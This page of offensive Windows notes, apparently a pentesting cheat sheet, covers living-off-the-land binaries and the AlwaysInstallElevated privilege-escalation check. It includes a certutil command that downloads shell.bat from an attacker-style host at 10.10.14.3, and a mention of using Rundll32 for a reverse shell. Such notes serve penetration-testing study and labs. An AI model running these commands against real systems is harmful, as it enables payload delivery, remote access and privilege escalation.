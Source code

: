 # Miscellaneous Techniques

## Living Off The Land Binaries and Scripts (LOLBAS)

https://lolbas-project.github.io/

### Transferring File with Certutil

https://lolbas-project.github.io/lolbas/Binaries/Certutil/

```
certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

### Encoding File with Certutil

```
certutil -encode file1 encodedfile

Input Length = 7
Output Length = 70
CertUtil: -encode command completed successfully
```

### Decoding File with Certutil

```
certutil -decode encodedfile file2

Input Length = 70
Output Length = 7
CertUtil: -decode command completed successfully.
```

https://lolbas-project.github.io/lolbas/Binaries/Rundll32/ : useful to obtain a reverse shell by executing a .DLL file that we either download onto the remote host or host ourselves on an SMB share.

## Always Install Elevated

This setting can be set via Local Group Policy by setting Always install with elevated privileges to Enabled under the following paths :

Computer Configuration\Administrative Templates\Windows Components\Windows Installer
User Configuration\Administrative Templates\Windows Components\Windows Installer

1) Enumerating Always Install Elevated Settings

```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
